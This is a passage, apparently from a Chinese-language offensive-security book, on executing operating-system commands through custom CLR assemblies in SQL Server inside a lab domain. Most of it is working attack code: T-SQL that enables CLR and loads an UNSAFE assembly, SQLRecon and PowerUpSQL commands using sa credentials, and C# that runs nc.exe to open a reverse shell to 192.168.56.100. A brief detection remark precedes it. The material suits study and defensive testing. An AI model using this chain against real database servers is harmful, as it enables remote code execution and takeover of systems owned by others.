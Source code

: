 图 9.15 – DLL 成功加载到内存中

失败的尝试将生成 ID 为 `17750` 的错误。通过关联这两个事件，如果环境中有预定义的 DLL 名单，可以基于 DLL 名称构建检测。

## 自定义 CLR 程序集

**公共语言运行时**(**CLR**) 程序集是一个可以导入到 SQL Server 的 .NET DLL。导入后，DLL 方法可以链接到存储过程。在这种情况下，攻击分为两步——启用 CLR 和实际执行。一个很好的分步博客帖子详细说明了这个过程，作者是 *NetSPI*[20]。C# 代码被编译成 DLL 并导入到 SQL Server。以下查询可以执行操作系统命令：

```
use msdb
EXEC sp_configure 'show advanced options',1
RECONFIGURE
EXEC sp_configure 'clr enabled',1
RECONFIGURE
CREATE ASSEMBLY my_evil FROM 'C:\Users\Public\cmd_exec.dll' WITH PERMISSION_SET = UNSAFE;
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_evil].[StoredProcedures].[cmd_exec];
```

该方法的另一个优点是，可以仅在内存中使用 DLL 的十六进制表示，而不需要接触磁盘。

还有两个需要注意的事项。此技术要求设置`TRUSTWORTHY`属性，这就是为什么我们使用默认具有此属性的`msdb`数据库。此外，`clr strict security`选项是微软引入的[21]。默认情况下，`alter/create`程序集语句中的`permission_set`选项将被忽略。要关闭此选项，需要通过`sp_configure`重新配置 CLR 严格安全设置。

为了演示，我们将结合使用 SQLRecon 和 PowerUpSQL 中的`Create-SQLFileCLRDll`函数来获得一个交互式反向 Shell。第一步是通过以下命令启用 CLR：

```
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:EnableClr
```

然后，我们使用`Create-SQLFileCLRDll`函数生成自定义程序集的代码：

```
Create-SQLFileCLRDll -OutFile runcmd -OutDir . -AssemblyName "runcmd" -AssemblyClassName "StoredProcedures" -AssemblyMethodName "cmd_exec"
```

让我们修改生成的`.csc`文件。以下代码效果非常好：

```
            using System;
            using System.Data;
            using System.Data.SqlClient;
            using System.Data.SqlTypes;
            using Microsoft.SqlServer.Server;
            using System.Diagnostics;
            public partial class StoredProcedures
            {
            [Microsoft.SqlServer.Server.SqlProcedure]
            public static void cmd_exec ()
            {
            Process proc = new Process();
            proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
               proc.StartInfo.Arguments = string.Format(@" /C C:\Users\Public\nc.exe -e cmd 192.168.56.100 443");
            proc.Start();
            proc.WaitForExit();
            proc.Close();
            }
            };
```

